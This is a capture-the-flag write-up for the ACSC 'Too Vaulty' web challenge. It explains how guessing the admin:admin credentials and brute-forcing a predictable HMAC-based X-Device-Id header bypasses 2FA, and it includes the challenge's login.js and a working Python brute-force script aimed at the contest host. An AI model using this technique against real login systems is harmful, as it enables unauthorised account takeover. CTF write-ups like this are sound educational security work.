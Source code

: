 ```yaml
---
title: ACSC - [Too Vaulty]
tags:
  - CTF
  - Write-up
  - web-exploitation
  - acsc
  - server-side
  - black-box
  - 2fa-bypass
categories:
  - CTF
  - Write Up
---
```

![[Screenshot 2024-03-31 at 18.54.10.png]]
# Prologue
An online CTF competition by ACSC, this competition is qualification for competing in ICC for ASIA category.
# Write Up
## TL;DR Solution

The player guess an admin credentials, and brute-force the `X-Device-ID` signature to bypass 2FA
## Detailed Explanation

### Initial Analysis

We were given a black-box challenge, the feature consists of register, login, and 2FA.
![[Screenshot 2024-03-31 at 18.56.08.png]]

When we logged in, we were a given a dashboard where we can settings up 2FA and an information about our role.
![[Screenshot 2024-03-31 at 18.57.13.png]]

After setting up 2FA and tried to login, we were given a feature of `Trust only this device`. 
![[Screenshot 2024-03-31 at 19.06.40.png]]

Looking at traffic, there's a header `X-Device-Id`, which is not a default header.
![[Screenshot 2024-03-31 at 19.11.24.png]]

Looking at `login.js`, there's a logic of how this signature created

```js
document
  .getElementById("loginForm")
  .addEventListener("submit", function (event) {
    event.preventDefault();

    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;
    const browser = bowser.getParser(window.navigator.userAgent);
    const browserObject = browser.getBrowser();
    const versionReg = browserObject.version.match(/^(\d+\.\d+)/); //[1]
    const version = versionReg ? versionReg[1] : "unknown";
    const deviceId = CryptoJS.HmacSHA1( 
      `${browserObject.name} ${version}`,
      "2846547907"
    ); //[2]

    fetch("/login", {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
        "X-Device-Id": deviceId,
      },
      body: JSON.stringify({ username, password }),
    })
      .then((response) => {
        if (response.redirected) {
          window.location.href = response.url;
        } else if (response.ok) {
          response.json().then((data) => {
            if (data.redirect) {
              window.location.href = data.redirect;
            } else {
              window.location.href = "/";
            }
          });
        } else {
          throw new Error("Login failed");
        }
      })
      .catch((error) => {
        console.error("Error:", error);
      });
  });

function redirectToRegister() {
  window.location.href = "/register";
}
```

Basically, this signature only need a browser major and minor version [1], and then it will calculated with HMAC-SHA1 with browser name and version [2]. 

And if the signature correct, we don't need to verify 2FA anymore.
### Exploitation

Since there's role of `user`, I just assume there's an `admin` role too. I tried to login with common credentials `admin:admin` and the credentials is correct. But, this account is protected with 2FA.

![[Screenshot 2024-03-31 at 19.17.04.png]]

Since there's no rate limit and the signature is guessable, we can just make a script and brute-force it. 

```python
import requests
from hashlib import sha1
import re
url = "https://versionhistory.googleapis.com/v1/chrome/platforms/win/channels/stable/versions"

import hmac
def make_signature(message, key, hashlib_type):
    """
    works like CryptoJS.Hmac*
    js:
        >> CryptoJS.HmacSHA1(message, key).toString()
    py:
        >> make_signature(message, key, hashlib.sha1)
    """
    key = bytes(key, 'utf-8')
    message = bytes(message, 'utf-8')

    hashed = hmac.new(key, message, hashlib_type)
    return hashed.hexdigest()

a = requests.get(url).json()['versions']
r = re.compile(r"^(\d+\.\d+)")

sigs = []
for x in a:
    c = r.match(x['version']).group()
    z = make_signature(f"Chrome {c}", "2846547907", sha1)
    sigs.append(z)

sigs = list(set(sigs))
print((sigs))

for sig in sigs:
    burp0_url = "http://toofaulty.chal.2024.ctf.acsc.asia:80/login"
    burp0_json={"password": "admin", "username": "admin"}
    burp0_headers = {"X-Device-Id": sig}
    res = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
    if "Verify 2FA Code" not in res.text:
        print(sig, res.text)
        break
```

![[Screenshot 2024-03-31 at 19.30.10.png]]

FLAG: `ACSC{T0o_F4ulty_T0_B3_4dm1n}`







